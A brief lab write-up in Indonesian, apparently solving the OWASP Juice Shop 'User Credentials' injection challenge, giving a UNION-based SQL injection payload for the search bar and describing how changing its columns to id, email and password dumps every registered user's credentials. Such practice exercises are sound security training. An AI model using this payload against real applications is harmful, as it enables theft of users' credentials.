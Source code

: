 # User Credentials

Link: https://juice-shop.herokuapp.com/#/score-board?categories=Injection

### Jawaban
1. Masukkan payload `')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM users--` ke search bar untuk mendapatkan database dari users
<img width="1832" height="1039" alt="image" src="https://github.com/user-attachments/assets/54b0d8b3-9032-4266-bac5-7d4438e97de2" />

2. Dari payload tadi ubah `1,2,3` menjadi `id,email,password` dan didapatkan semua kredensial dari user yang sudah register
<img width="1825" height="1115" alt="image" src="https://github.com/user-attachments/assets/0d75d39f-c534-4cbf-9428-e3aba1e9d956" />
